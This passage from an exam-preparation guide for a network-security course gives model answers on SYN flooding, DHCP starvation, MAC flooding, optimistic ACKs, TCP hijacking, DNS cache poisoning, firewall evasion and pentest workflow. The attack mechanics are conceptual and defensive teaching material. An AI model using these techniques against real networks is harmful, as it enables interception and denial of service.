With TCP, a single spoofed SYN does **not** create the same application-data loop. The recipient sends SYN-ACK to the spoofed peer, which has no matching connection and typically sends RST (or drops it). No three-way handshake/application request has completed. Since the attacker is off-path, it cannot generally learn the server sequence number needed to complete a forged handshake. There are therefore no magic seq/ACK values satisfying the requested one-SYN attack under the stated assumptions.

Prevent feedback by disabling unused services, refusing inappropriate service-to-service responses, limiting rates and applying source-address validation.

<a id="a022"></a>
### A022 · 2022–23 · Q1(b)

**SYN backlog exhaustion and cookie validation · 12 marks**

Original: [past-paper PDF p. 11](../../CSE405-Security_Merged.pdf#page=11). Sitting date: 18 April 2024.

**Topics:** SYN flooding and stateless SYN cookies.

> **Question summary:** Explain SYN flooding with a figure and evaluate SYN cookies.

**Exam tip.** Explain exactly when state is allocated and why returning the cookie is evidence of receiving the SYN-ACK.

A normal TCP listener reserves state for a half-open connection after SYN and awaits the final ACK. Many incomplete handshakes can fill its backlog and deny legitimate clients.



Instead of storing each request, the server chooses an initial sequence number encoding a short time value, supported parameters and a secret-dependent authenticator of the flow tuple. It sends SYN-ACK with this cookie and ACK equal to client ISN plus one. When the client returns ACK, the server checks **ACK−1**, recomputes the authenticator for recent time slots, and allocates connection state only after validation.

Conceptually:
$$c=\operatorname{Encode}\left(t,\mathrm{options},\operatorname{TruncMAC}_K(\mathrm{srcIP},\mathrm{srcPort},\mathrm{dstIP},\mathrm{dstPort},t,\mathrm{options})\right).$$

The real cookie fits within the 32-bit TCP ISN, so authentication bits and options are limited. The secret is not sent to clients. A blind spoofing sender generally cannot see and return a correct cookie. An on-path adversary can, and attackers with genuine addresses can still complete handshakes and consume resources.

Cookies protect half-open **state**, not an already saturated link, all CPU costs, or application floods. Historical slide statements about OS support/options are not universal claims about current implementations.

[Reference: RFC 4987](https://www.rfc-editor.org/rfc/rfc4987).

<a id="a023"></a>
### A023 · 2022–23 · Q1(c)

**DHCP starvation message flow and rogue-server relationship · 13 marks**

Original: [past-paper PDF p. 11](../../CSE405-Security_Merged.pdf#page=11). Sitting date: 18 April 2024.

**Topics:** DHCP starvation, spoofing and defenses.

> **Question summary:** Explain DHCP starvation with a message diagram and analyze its relation to DHCP spoofing.

**Exam tip.** Label starvation as DoS and rogue configuration as a separate trust failure.

Normal allocation follows **DISCOVER → OFFER → REQUEST → ACK**. A client broadcasts discovery; a server offers a lease; the client selects it; the server acknowledges.

In starvation, an attacker presents many invented client identities and completes enough allocation exchanges to occupy the available lease pool. Legitimate new clients then receive no usable lease. Many DISCOVERs alone may consume pending offers temporarily, but a complete explanation includes lease commitment/retention behavior.

```text
invented client i  -> server: DISCOVER
server            -> client: OFFER address i
invented client i  -> server: REQUEST address i
server            -> client: ACK lease i
repeat until the allocatable pool is exhausted
```

A rogue DHCP server can then offer an attacker-controlled gateway or DNS resolver to clients the legitimate server cannot serve. This **spoofing/MITM** phase is distinct from starvation's availability failure; spoofing can also succeed by winning a race without first exhausting the pool.

Use DHCP snooping with trusted server ports, rate limits on untrusted client ports, identity/lease limits and monitoring for abnormal allocation churn. Port-security limits alone may not cover all DHCP client-identifier variations.

<a id="a027"></a>
### A027 · 2022–23 · Q3(a)

**CAM exhaustion and switch behavior · 12 marks**

Original: [past-paper PDF p. 11](../../CSE405-Security_Merged.pdf#page=11). Sitting date: 18 April 2024.

**Topics:** Switch MAC-table flooding and port security.

> **Question summary:** Explain MAC flooding with topology, effects on a switch and attacker benefits.

**Exam tip.** Explain source learning and destination lookup separately; exhausting an ARP cache is a different attack.

A switch learns **source MAC → ingress port** bindings in its finite CAM/FDB table. An attacker sends frames with many fabricated source MACs, exhausting or churning that table.



When a destination MAC is unknown, ordinary switching may flood that frame to other forwarding ports **within its VLAN**. The attacker can then see traffic that would otherwise have been unicast elsewhere, and excessive flooding may cause congestion. This does not universally turn the device into a hub: existing known destinations may still be forwarded correctly, hardware behavior varies and VLAN boundaries remain relevant.

Use port-security MAC limits, appropriate violation actions, source controls, segmentation and unknown-unicast limits. Monitor abnormal source churn/FDB pressure. End-to-end encryption protects contents even if frames are copied. DAI addresses forged ARP bindings and is not a complete substitute for CAM-source limits.

<a id="a060"></a>
### A060 · 2021–22 · Q6(a)

**Detect optimistic ACKs by withholding a segment · 12 marks**

Original: [past-paper PDF p. 17](../../CSE405-Security_Merged.pdf#page=17). Sitting date: 30 October 2023.

**Topics:** TCP hijacking, spoofed segments and optimistic ACKs.

> **Question summary:** Explain how randomly dropping data segments at the sender helps detect optimistic TCP ACK attacks.

**Coverage:** related application/extension. The network deck explains TCP ACK state; optimistic-ACK probing is beyond its explicit treatment.

**Exam tip.** “Randomly drop packets” is incomplete: explain the impossible acknowledgment that supplies evidence.

An optimistic receiver ACKs bytes it has not received, tricking a sender into increasing its congestion window and sending faster than the path can carry. An attacker can abuse this to amplify offered traffic.

The proposed sender defense secretly **withholds** a chosen segment before it ever enters the network and tracks the resulting byte gap. Suppose bytes 1000–1999 are withheld while later segments arrive. A correct cumulative ACK cannot advance beyond 1000 until those missing bytes have actually been transmitted and received (ACK numbers denote the next expected byte).

A receiver that acknowledges 3000 while the gap still exists claims receipt of bytes the sender never sent. The sender can flag/terminate or restrict that flow. Random selection makes it harder for a blind ACK generator to predict the probes. Merely observing network loss is weaker because retransmission/reordering can explain later ACKs; track exactly what was intentionally withheld and when retransmission becomes possible.

This is the historical proposed modification in the question, not an assumption that all TCP stacks implement it. It must account for legitimate cumulative ACK/SACK behavior and imposes some performance cost.

[Primary study](https://drum.lib.umd.edu/items/d435007a-3809-4c75-8e4f-85ae20c5d5e7), [CERT vulnerability note](https://www.kb.cert.org/vuls/id/102014).

<a id="a063"></a>
### A063 · 2021–22 · Q7(a)

**SYN-cookie defense · 12 marks**

Original: [past-paper PDF p. 17](../../CSE405-Security_Merged.pdf#page=17). Sitting date: 30 October 2023.

**Topics:** SYN flooding and stateless SYN cookies.

> **Question summary:** Explain how SYN cookies defend against SYN flooding.

**Exam tip.** Explain exactly when state is allocated and why returning the cookie is evidence of receiving the SYN-ACK.

A normal TCP listener reserves state for a half-open connection after SYN and awaits the final ACK. Many incomplete handshakes can fill its backlog and deny legitimate clients.


Instead of storing each request, the server chooses an initial sequence number encoding a short time value, supported parameters and a secret-dependent authenticator of the flow tuple. It sends SYN-ACK with this cookie and ACK equal to client ISN plus one. When the client returns ACK, the server checks **ACK−1**, recomputes the authenticator for recent time slots, and allocates connection state only after validation.

Conceptually:
$$c=\operatorname{Encode}\left(t,\mathrm{options},\operatorname{TruncMAC}_K(\mathrm{srcIP},\mathrm{srcPort},\mathrm{dstIP},\mathrm{dstPort},t,\mathrm{options})\right).$$

The real cookie fits within the 32-bit TCP ISN, so authentication bits and options are limited. The secret is not sent to clients. A blind spoofing sender generally cannot see and return a correct cookie. An on-path adversary can, and attackers with genuine addresses can still complete handshakes and consume resources.

Cookies protect half-open **state**, not an already saturated link, all CPU costs, or application floods. Historical slide statements about OS support/options are not universal claims about current implementations.

[Reference: RFC 4987](https://www.rfc-editor.org/rfc/rfc4987).

<a id="a078"></a>
### A078 · 2020–21 · Q4(a)

**ARP prevention, monitoring and locating the attacking port · 12 marks**

Original: [past-paper PDF p. 19](../../CSE405-Security_Merged.pdf#page=19). Sitting date: 25 September 2022.

**Topics:** ARP spoofing, MITM and detection.

> **Question summary:** Give ARP-spoofing defenses and ways to identify an attacking host on the internal network.

**Exam tip.** Separate detecting a bad binding from attributing it to a physical port/device.

ARP maps an IPv4 next-hop address to an Ethernet MAC without strong native authentication. Forged replies can tell a victim that the gateway's IP belongs to the attacker and tell the gateway the inverse lie, creating a forwarding MITM.

Prevent with DHCP-snooping-derived **dynamic ARP inspection**, carefully maintained static bindings for small critical environments, appropriate switch access controls and authenticated end-to-end protocols. Encryption protects payloads but does not remove false local routing or DoS.

Monitor ARP changes, duplicate claims for one IP, unusual gratuitous replies and binding conflicts using packet capture/ARPwatch-style tools. Compare with legitimate DHCP leases, inventory and known gateway MACs. Then correlate the suspicious MAC with the switch forwarding table, ingress-port counters and physical/802.1X identity to find its access port; isolate according to the response plan.

A single MAC serving several IPs is an indicator rather than proof: routers, virtualization and failover can do that legitimately. MACs can also be spoofed; do not equate a packet's source string with a trustworthy person identity.

<a id="a099"></a>
### A099 · 2019–20 · Q4(b)

**Making a switch flood unknown destinations · 12 marks**

Original: [past-paper PDF p. 23](../../CSE405-Security_Merged.pdf#page=23). Sitting date: 07 September 2021.

**Topics:** Switch MAC-table flooding and port security.

> **Question summary:** Why make a switch behave like a hub, what attack does this and how can it be prevented?

**Exam tip.** Explain source learning and destination lookup separately; exhausting an ARP cache is a different attack.

A switch learns **source MAC → ingress port** bindings in its finite CAM/FDB table. An attacker sends frames with many fabricated source MACs, exhausting or churning that table.


When a destination MAC is unknown, ordinary switching may flood that frame to other forwarding ports **within its VLAN**. The attacker can then see traffic that would otherwise have been unicast elsewhere, and excessive flooding may cause congestion. This does not universally turn the device into a hub: existing known destinations may still be forwarded correctly, hardware behavior varies and VLAN boundaries remain relevant.

Use port-security MAC limits, appropriate violation actions, source controls, segmentation and unknown-unicast limits. Monitor abnormal source churn/FDB pressure. End-to-end encryption protects contents even if frames are copied. DAI addresses forged ARP bindings and is not a complete substitute for CAM-source limits.

<a id="a100"></a>
### A100 · 2019–20 · Q4(c)

**Withheld-segment detection of optimistic ACKs · 11 marks**

Original: [past-paper PDF p. 23](../../CSE405-Security_Merged.pdf#page=23). Sitting date: 07 September 2021.

**Topics:** TCP hijacking, spoofed segments and optimistic ACKs.

> **Question summary:** Explain with examples how sender-side random segment dropping detects optimistic ACKs.

**Coverage:** related application/extension. Optimistic-ACK details extend the TCP-state slides.

**Exam tip.** “Randomly drop packets” is incomplete: explain the impossible acknowledgment that supplies evidence.

An optimistic receiver ACKs bytes it has not received, tricking a sender into increasing its congestion window and sending faster than the path can carry. An attacker can abuse this to amplify offered traffic.

The proposed sender defense secretly **withholds** a chosen segment before it ever enters the network and tracks the resulting byte gap. Suppose bytes 1000–1999 are withheld while later segments arrive. A correct cumulative ACK cannot advance beyond 1000 until those missing bytes have actually been transmitted and received (ACK numbers denote the next expected byte).

A receiver that acknowledges 3000 while the gap still exists claims receipt of bytes the sender never sent. The sender can flag/terminate or restrict that flow. Random selection makes it harder for a blind ACK generator to predict the probes. Merely observing network loss is weaker because retransmission/reordering can explain later ACKs; track exactly what was intentionally withheld and when retransmission becomes possible.

This is the historical proposed modification in the question, not an assumption that all TCP stacks implement it. It must account for legitimate cumulative ACK/SACK behavior and imposes some performance cost.

[Primary study](https://drum.lib.umd.edu/items/d435007a-3809-4c75-8e4f-85ae20c5d5e7), [CERT vulnerability note](https://www.kb.cert.org/vuls/id/102014).

<a id="a119"></a>
### A119 · 2018–19 · Q3(b)

**Complete TCP hijacking · 9 marks**

Original: [past-paper PDF p. 26](../../CSE405-Security_Merged.pdf#page=26). Sitting date: 24 October 2019.

**Topics:** TCP hijacking, spoofed segments and optimistic ACKs; ARP spoofing, MITM and detection.

> **Question summary:** Explain with a diagram how to perform TCP session hijacking.

**Exam tip.** Separate observing numbers, injecting acceptable bytes and silencing conflicting legitimate traffic.

An attacker first needs the connection tuple and sequence/window state. A practical on-LAN route in the lecture is ARP poisoning, which makes the attacker a forwarding intermediary:

```text
client <----> attacker relay <----> server
             observe seq/ACK
             suppress/replace selected packets
```

Track bytes in both directions. To impersonate the client, a forged segment must use the client's source IP/port, server destination and an acceptable next sequence number/ACK. Its TCP checksum must match. If the real client continues sending conflicting stream data, the session can desynchronize or terminate; full takeover requires controlling/suppressing that competing traffic, not merely inserting one arbitrary packet.

Correct authenticated application encryption prevents accepted malicious **application content** without the session keys, although an on-path attacker may still disrupt availability. Random ISNs and blind-injection defenses help against off-path guessing but do not hide state from an on-path observer.

<a id="a120"></a>
### A120 · 2018–19 · Q3(c)

**Optimistic TCP ACK mechanism and mitigation · 10 marks**

Original: [past-paper PDF p. 26](../../CSE405-Security_Merged.pdf#page=26). Sitting date: 24 October 2019.

**Topics:** TCP hijacking, spoofed segments and optimistic ACKs.

> **Question summary:** Define optimistic TCP ACK attack and give mitigations.

**Coverage:** related application/extension. The deck covers TCP state but not optimistic-ACK algorithms.

**Exam tip.** “Randomly drop packets” is incomplete: explain the impossible acknowledgment that supplies evidence.

An optimistic receiver ACKs bytes it has not received, tricking a sender into increasing its congestion window and sending faster than the path can carry. An attacker can abuse this to amplify offered traffic.

The proposed sender defense secretly **withholds** a chosen segment before it ever enters the network and tracks the resulting byte gap. Suppose bytes 1000–1999 are withheld while later segments arrive. A correct cumulative ACK cannot advance beyond 1000 until those missing bytes have actually been transmitted and received (ACK numbers denote the next expected byte).

A receiver that acknowledges 3000 while the gap still exists claims receipt of bytes the sender never sent. The sender can flag/terminate or restrict that flow. Random selection makes it harder for a blind ACK generator to predict the probes. Merely observing network loss is weaker because retransmission/reordering can explain later ACKs; track exactly what was intentionally withheld and when retransmission becomes possible.

This is the historical proposed modification in the question, not an assumption that all TCP stacks implement it. It must account for legitimate cumulative ACK/SACK behavior and imposes some performance cost.

[Primary study](https://drum.lib.umd.edu/items/d435007a-3809-4c75-8e4f-85ae20c5d5e7), [CERT vulnerability note](https://www.kb.cert.org/vuls/id/102014).


Complementary mitigations include sensible pacing/traffic shaping and per-client resource limits; they reduce amplification but do not themselves prove receipt of every byte. The withheld-segment test specifically targets false receipt claims.

## DNS Security

Primary deck: [Ch06-1-NetworkDNS.pdf](../slides/Ch06-1-NetworkDNS.pdf)

<a id="a009"></a>
### A009 · 2023–24 · Q3(c)

**Kaminsky retries, bailiwick, DNS-over-TLS and DNSSEC · 20 marks**

Original: [past-paper PDF p. 4](../../CSE405-Security_Merged.pdf#page=4). Sitting date: 06 September 2025.

**Topics:** DNS poisoning, Kaminsky races, pharming and DNSSEC.

> **Question summary:** An internal attacker loads many fakeN.buet.ac.bd image names to poison the shared resolver (no source-port randomization). Explain why many images help, whether the same page can poison www.google.com, and the effects of DNS-over-TLS and DNSSEC.

**Exam tip.** Identify which zone the forged record concerns and which network hop each defense actually protects.

Each fresh random subdomain forces a cache miss and creates another response race. The attacker attempts to match the outstanding query's name/type/class, transaction ID and socket tuple before the authoritative response arrives. A forged in-bailiwick delegation/NS response can try to redirect subsequent resolution for the parent zone. Repeating fresh names avoids waiting for one cached answer's TTL to expire.

For $q$ independent races with per-race win probability $p$:
$$P(\text{at least one win})=1-(1-p)^q.$$
If $r$ distinct ID guesses fit in a race and the only unknown is a uniform 16-bit ID, $p\approx \min(r,2^{16})/2^{16}$. Sending all IDs helps only if they arrive in time. Do not apply an unrestricted $q r/2^{16}$ formula when names, sockets or implementation query coalescing prevent cross-matching.

The listed `fakeN.buet.ac.bd` queries do **not** authorize replacement of `google.com` data. A resolver enforcing bailiwick/trust rules discards unrelated additional records. Targeting another domain requires corresponding outstanding queries and an applicable poisoning opportunity; “all DNS is cached together” is insufficient.

**DNS over TLS depends on the hop.** Authenticating/encrypting the client-to-recursive-resolver connection prevents tampering on that link, but does not secure a separate UDP recursive-to-authoritative race. Authenticated protection of the attacked hop would stop network forgery there.

**DNSSEC** validates signed RRsets through DNSKEY/DS and a configured trust anchor. Forged answer/delegation data fails signature/chain validation for a securely signed zone. An untrusted key bundled in the answer is not a trust anchor. DNSSEC does not conceal queries or guarantee availability.



[Reference: RFC 5452](https://www.rfc-editor.org/rfc/rfc5452), [DNSSEC introduction: RFC 4033](https://www.rfc-editor.org/rfc/rfc4033).

<a id="a030"></a>
### A030 · 2022–23 · Q4(a)

**DNS cache poisoning and three defenses · 12 marks**

Original: [past-paper PDF p. 12](../../CSE405-Security_Merged.pdf#page=12). Sitting date: 18 April 2024.

**Topics:** DNS poisoning, Kaminsky races, pharming and DNSSEC.

> **Question summary:** Define DNS cache poisoning, explain exploitation and provide three defenses.

**Exam tip.** Give a defense against the exact forgery path; “use a firewall” alone does not authenticate DNS data.

A resolver stores a forged name/delegation mapping and later serves it as cached truth. Clients may be redirected to an attacker's server or denied service. An off-path attacker commonly forces an uncached lookup and races a guessed response against the authoritative reply.

The forged response must match the outstanding query's transaction ID, name/type/class, addresses and ports and satisfy record-trust/bailiwick rules. A 16-bit predictable identifier or fixed source port makes guessing easier. A cached malicious delegation can affect many subsequent names.

Three complementary defenses are:

1. **Unpredictable transaction IDs and per-query source ports:** enlarge the guessing space; keep entropy through NAT/firewalls.
2. **Strict response and bailiwick validation:** reject mismatched/unsolicited responses and unrelated additional records; restrict recursion to intended clients and patch resolver flaws.
3. **DNSSEC validation:** verify signed RRsets through authenticated delegation to a trust anchor. Reject bogus data for securely signed zones.

Restricting recursion alone does not protect against an internal attacker or a browser-triggered lookup. DNSSEC provides authenticity/integrity, not encryption or total DoS prevention.


[Reference: RFC 5452](https://www.rfc-editor.org/rfc/rfc5452).

<a id="a061"></a>
### A061 · 2021–22 · Q6(b)

**Three DNS poisoning countermeasures · 12 marks**

Original: [past-paper PDF p. 17](../../CSE405-Security_Merged.pdf#page=17). Sitting date: 30 October 2023.

**Topics:** DNS poisoning, Kaminsky races, pharming and DNSSEC.

> **Question summary:** Design three mechanisms to prevent or mitigate DNS cache poisoning.

**Exam tip.** Give a defense against the exact forgery path; “use a firewall” alone does not authenticate DNS data.

A resolver stores a forged name/delegation mapping and later serves it as cached truth. Clients may be redirected to an attacker's server or denied service. An off-path attacker commonly forces an uncached lookup and races a guessed response against the authoritative reply.

The forged response must match the outstanding query's transaction ID, name/type/class, addresses and ports and satisfy record-trust/bailiwick rules. A 16-bit predictable identifier or fixed source port makes guessing easier. A cached malicious delegation can affect many subsequent names.

Three complementary defenses are:

1. **Unpredictable transaction IDs and per-query source ports:** enlarge the guessing space; keep entropy through NAT/firewalls.
2. **Strict response and bailiwick validation:** reject mismatched/unsolicited responses and unrelated additional records; restrict recursion to intended clients and patch resolver flaws.
3. **DNSSEC validation:** verify signed RRsets through authenticated delegation to a trust anchor. Reject bogus data for securely signed zones.

Restricting recursion alone does not protect against an internal attacker or a browser-triggered lookup. DNSSEC provides authenticity/integrity, not encryption or total DoS prevention.


[Reference: RFC 5452](https://www.rfc-editor.org/rfc/rfc5452).

<a id="a098"></a>
### A098 · 2019–20 · Q4(a)

**DNS redirection as a MITM precursor · 12 marks**

Original: [past-paper PDF p. 23](../../CSE405-Security_Merged.pdf#page=23). Sitting date: 07 September 2021.

**Topics:** DNS poisoning, Kaminsky races, pharming and DNSSEC.

> **Question summary:** Explain with a diagram how DNS spoofing can launch MITM.

**Exam tip.** Explain the additional trust failure needed to turn DNS poisoning into interception of validated HTTPS.

```text
client asks resolver: bank.example address?
forged/corrupted answer: attacker IP
client -> attacker proxy -> real bank
client <- attacker proxy <- real bank
```

The attacker replaces a hostname's expected address, receives the client's connection and proxies to the real service while observing/modifying unprotected traffic. A local forged answer or poisoned recursive cache can supply the wrong mapping. To be MITM, the attacker must forward both sides rather than merely show an unrelated fake page.

Correct HTTPS hostname/certificate validation prevents a DNS redirect alone from authenticating the attacker as `bank.example`: it lacks the trusted corresponding server key. It may still cause failure/DoS, exploit a user overriding warnings or succeed with a separately compromised certificate/key. DNSSEC validation addresses signed DNS authenticity; authenticated TLS independently binds the server identity.

<a id="a122"></a>
### A122 · 2018–19 · Q4(a)

**Random-subdomain cache-poisoning advantage · 10 marks**

Original: [past-paper PDF p. 26](../../CSE405-Security_Merged.pdf#page=26). Sitting date: 24 October 2019.

**Topics:** DNS poisoning, Kaminsky races, pharming and DNSSEC.

> **Question summary:** Why use subdomain DNS cache poisoning, and why can it succeed more readily than simple poisoning?

**Exam tip.** Explain the two advantages separately: repeated cache misses and a valuable cached delegation target.

A simple repeated query for one name may hit a cached answer, leaving no new authoritative response race until TTL expiry. Random fresh subdomains such as `nonce1.example`, `nonce2.example` repeatedly cause cache misses.

For each outstanding lookup, the attacker races forged replies carrying an applicable delegation/NS change for the target zone. A successful accepted delegation can redirect later lookups beyond that one fresh name. New names provide many attempts without waiting for the original host record to expire.

Success still requires matching the actual query identifiers/socket and satisfying resolver trust/bailiwick rules. This is not permission to insert arbitrary records for unrelated domains, and a correct DNSSEC-validating resolver rejects forged data for a securely signed zone. Unpredictable IDs/source ports, strict validation and resolver updates reduce the race opportunity.

<a id="a123"></a>
### A123 · 2018–19 · Q4(b)

**Pharming versus phishing · 8 marks**

Original: [past-paper PDF p. 26](../../CSE405-Security_Merged.pdf#page=26). Sitting date: 24 October 2019.

**Topics:** DNS poisoning, Kaminsky races, pharming and DNSSEC; Phishing, homographs and UI deception.

> **Question summary:** Distinguish pharming and phishing, with examples.

**Coverage:** related application/extension. Handwritten notes p. 63 teaches phishing; pharming and DNS redirection are not developed there.

**Exam tip.** Identify the redirect mechanism in the pharming example. Neither technique requires guessing the victim’s password beforehand.

**Phishing** lures a victim into trusting a fraudulent message/site. Example: an email asks the victim to log in at a lookalike bank domain, where the attacker collects credentials.

**Pharming** redirects a victim’s attempt to reach a legitimate service to an attacker-controlled destination, often through malicious DNS responses, poisoned resolver data, altered hosts configuration or a compromised router. The victim may type the correct hostname and still be directed to the wrong IP.

| Feature | Phishing | Pharming |
|---|---|---|
| Typical manipulation | Lure, domain appearance, service identity | Name resolution or routing/configuration |
| User may type the real address | Not required | Yes |
| Example | Fake login link | DNS poisoning sends bank hostname to attacker |
| Relevant defenses | Origin-bound authentication, careful origin handling | Protect DNS/router/hosts configuration; authenticated DNS where appropriate; proper TLS hostname/certificate validation |

Proper TLS validation can reveal that the redirected endpoint lacks a valid certificate for the real hostname; users must not bypass warnings. HTTPS on a lookalike phishing domain authenticates that lookalike name, not the bank. The attacks can be combined.

## Firewalls, Tunneling and IDS

Primary deck: [Ch06-2-FW-Tunneling-IDS-REDUCED.pdf](../slides/Ch06-2-FW-Tunneling-IDS-REDUCED.pdf)

<a id="a007"></a>
### A007 · 2023–24 · Q3(a)

**Can NIDS/firewall plus HTTPS always stop five attacks? · 10 marks**

Original: [past-paper PDF p. 4](../../CSE405-Security_Merged.pdf#page=4). Sitting date: 06 September 2025.

**Topics:** Firewall state, evasion and defense limits; TCP hijacking, spoofed segments and optimistic ACKs; SYN flooding and stateless SYN cookies; DNS poisoning, Kaminsky races, pharming and DNSSEC; DoS/DDoS, reflection and resource exhaustion; Stored/reflected XSS and injected scripts.

> **Question summary:** An HTTPS-only server farm has a NIDS and firewall processing incoming requests. With an on-path attacker, assess RST injection, reflected XSS, SYN flooding, DNS spoofing and DDoS.

**Exam tip.** Place each attack at its layer: link/IP, TCP, TLS or application. A protection at one layer need not authenticate the others.

**No blanket guarantee follows from this setup.** A NIDS may only alert; a firewall's effectiveness depends on its policy, visibility and resources.

| Attack | Reason and relevant defense |
|---|---|
| RST injection | TLS authenticates records, not ordinary TCP headers. An on-path adversary can observe sequence state and attempt a valid reset. State checks/TCP-level authentication can help; HTTPS alone does not authenticate RSTs. |
| Reflected XSS | TLS faithfully carries a vulnerable application's response. A NIDS outside TLS termination cannot inspect plaintext. Context-aware output encoding and safe templating are the primary fixes; an inspecting WAF is supplementary. |
| SYN flooding | SYNs reach the server before TLS. SYN cookies/proxies and upstream limits reduce backlog exhaustion, but not all link saturation. |
| DNS spoofing | HTTPS certificate validation can stop successful server impersonation when DNS redirects to an unauthenticated server. It does not prevent poisoning itself or resulting denial of service. DNSSEC validation addresses signed DNS data. |
| DDoS | A firewall may filter attack traffic but cannot recover bandwidth already exhausted upstream. Distributed mitigation, capacity and application limits are needed. |

<a id="a011"></a>
### A011 · 2023–24 · Q4(b)

**TCP segmentation, reassembly and limits of a guaranteed evasion · 10 marks**

Original: [past-paper PDF p. 5](../../CSE405-Security_Merged.pdf#page=5). Sitting date: 06 September 2025.

**Topics:** Firewall state, evasion and defense limits.

> **Question summary:** A smart stateful firewall blocks bytes spelling admin and allows everything else. Mallory splits the word into five packets sent out of order. Will that evade the rule? If not, propose a guaranteed strategy.

**Coverage:** related application/extension. The deck distinguishes filter types; stream normalization and the impossibility of an unconditional guarantee are extensions.

**Exam tip.** State the inspection model first. “Stateful” does not automatically mean complete application parsing, and “encrypted” does not automatically mean permitted.

If the firewall scans individual packets only, splitting `admin` prevents any one packet from containing the complete pattern. That can evade this **packet-only implementation**, whether packets arrive in order or not.

A stateful **stream-inspecting** firewall can buffer TCP segments, order them by sequence number, normalize overlaps and scan the reassembled byte stream. It reconstructs `admin` just as the endpoint does. Reordering then provides no inherent evasion.

There is **no universally guaranteed bypass** of the specified smart firewall. Encryption or an encoding can hide literal bytes only if the receiving application accepts that representation and the firewall cannot decrypt/decode it. For example, a permitted authenticated tunnel can carry an encrypted `admin`, but this assumes tunnel support, keys and a policy allowing that traffic. An application-aware firewall might inspect after decryption or reject it.

Likewise, fragmentation/overlap tricks depend on a disagreement between firewall and endpoint parsers; correctly matched reassembly defeats them. For an ideal filter that sees exactly the delivered application stream and rejects this word, delivering that same visible word while evading the rule is contradictory.

<a id="a026"></a>
### A026 · 2022–23 · Q2(c)

**Fingerprint/version/CVE assessment workflow · 11 marks**

Original: [past-paper PDF p. 11](../../CSE405-Security_Merged.pdf#page=11). Sitting date: 18 April 2024.

**Topics:** Reconnaissance, fingerprinting and vulnerability assessment.

> **Question summary:** Formulate the steps for finding and exploiting a target vulnerability by scanning OS/application versions.

**Exam tip.** Separate discovery, vulnerability inference and demonstrated exploitation. Each has different evidence.

In the exam's authorized test environment:

1. Define the permitted hosts/services and obtain a baseline of expected availability.
2. Discover live hosts and open ports. A TCP connect scan completes a connection; a SYN scan interprets SYN-ACK/RST without completing an ordinary connection. Filtering/timeouts require careful interpretation.
3. Identify service banners/protocol behavior and estimate OS/version using tools such as Nmap. A banner is evidence, not proof: it can be hidden, misleading or refer to a backported patched build.
4. Match the exact product, version, configuration and platform against vendor advisories/CVE records. Check authentication requirements, exposed interfaces and patch status.
5. Validate the suspected issue safely in an isolated equivalent system, then demonstrate only the agreed impact on the test target. A version match alone does not establish successful code execution.
6. Preserve evidence, explain the root cause, patch or reconfigure, reduce exposure and retest the specific finding.

The slides mention scanners/exploit tools; a good answer connects each tool's observation to the next decision rather than treating a scan result as automatic access.

<a id="a031"></a>
### A031 · 2022–23 · Q4(b)

**Honeypot placement, value and resource cost · 10 marks**

Original: [past-paper PDF p. 12](../../CSE405-Security_Merged.pdf#page=12). Sitting date: 18 April 2024.

**Topics:** Honeypot topology, monitoring and overhead.

> **Question summary:** Explain with topology why an organization needs a honeypot and estimate its overhead.

**Exam tip.** Distinguish direct production latency from operational and shared-resource cost.



A honeypot is a deliberately attractive decoy with little or no legitimate production use. Access attempts provide comparatively high-signal evidence. Interaction can reveal exploit methods, malware, commands and C&C destinations, and may divert an intruder from valuable systems.

Place it in a controlled segment/DMZ, monitor it from a protected collector and restrict its outbound reach. Never give it real credentials or a path for unrestricted attacks on production or third parties. A low-interaction decoy emulates selected services; a high-interaction host provides richer evidence at greater containment/maintenance cost.

**Overhead is not zero and has no fixed percentage in the question.** Costs include a VM/host, storage, logs, monitoring, analyst time, patch/reset work and some network traffic. A passive or separately segmented decoy need not sit in the production request path, so ordinary requests do not inherently incur an extra hop. Attack traffic or poor placement can nevertheless affect shared resources.

A honeypot observes attacks that touch it; it cannot replace general IDS, patching and access control.

<a id="a032"></a>
### A032 · 2022–23 · Q4(c)

**Stateful versus stateless filtering · 7 marks**

Original: [past-paper PDF p. 12](../../CSE405-Security_Merged.pdf#page=12). Sitting date: 18 April 2024.

**Topics:** Firewall state, evasion and defense limits.

> **Question summary:** Compare stateful and stateless firewalls.

